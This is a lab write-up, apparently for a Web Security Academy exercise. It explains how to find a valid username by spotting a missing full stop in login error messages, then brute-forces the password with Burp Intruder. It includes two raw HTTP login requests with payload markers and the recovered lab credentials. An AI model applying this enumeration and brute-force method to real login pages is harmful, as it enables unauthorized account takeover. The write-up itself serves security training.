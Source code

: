 #+title: Username enumeration via subtly different responses
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]

* Table of Contents :toc:
- [[#lab-contains][Lab Contains]]
- [[#end-goal][End Goal]]
- [[#enumerate-username][Enumerate username]]
- [[#enumerate-password][Enumerate password]]
- [[#solve-the-lab][Solve the lab]]

* Lab Contains
+ Subtly vulnerable to ~username~ enumeration and ~password~ brute-force attack
+ Wordlist for ~username~
+ Wordlist for ~password~
* End Goal
+ Enumerate valid ~username~ and ~password~
+ Login with correct ~username~ and ~password~ to solve the lab

* DONE Enumerate username
CLOSED: [2023-07-31 Mon 19:33]
+ Go to login page of the application
+ Login with test credential like username = ~test~ , password = ~test~
+ Observe the behavior of the application
+ Like [[./lab1.org][Lab 1]] this application give generic error-message: ~Invalid username or password~
+ Now send the login request in intruder and brute-force with ~username~ payload.
  #+begin_src shell
    POST /login HTTP/2
    Host: 0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net
    Cookie: session=xGhHhPvpCNnPiGzXeb55B7vznt5aCJiB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net
    Dnt: 1
    Referer: https://0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net/login
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers

    username=§test§&password=test
  #+end_src

  + For all payload of ~username~ it gives same error-message which is ~Invalid username or password.~ but for one payload this error-message is subtly different which is ~Invalid username or password~ there is no '.' full stop mark. So assume that this might be our correct username for this lab instance is ~puppet~

  [[./assets/screenshots/lab04-enum-username.png]]

* DONE Enumerate password
CLOSED: [2023-07-31 Mon 19:33]
+ Using username ~puppet~ now send login request to intruder again to brute-force password
  #+begin_src shell
    POST /login HTTP/2
    Host: 0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net
    Cookie: session=xGhHhPvpCNnPiGzXeb55B7vznt5aCJiB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29
    Origin: https://0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net
    Dnt: 1
    Referer: https://0a1f00c703322a3180e1ee3a00c00050.web-security-academy.net/login
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Sec-Gpc: 1
    Te: trailers

    username=puppet&password=§test§
#+end_src

+ For all payload it gives ~Invalid username or password~ . For one payload it does not give error-message. So, this is the password for our user ~puppet~ which is ~12345~

 [[./assets/screenshots/lab04-enum-password.png]] 

 Note: This might change on every new instance of lab

* DONE Solve the lab
CLOSED: [2023-07-31 Mon 19:35]
Now we enumerate our username and password for the application

- username = ~puppet~
- password = ~12345~

/Now login with this credential and solve the lab/

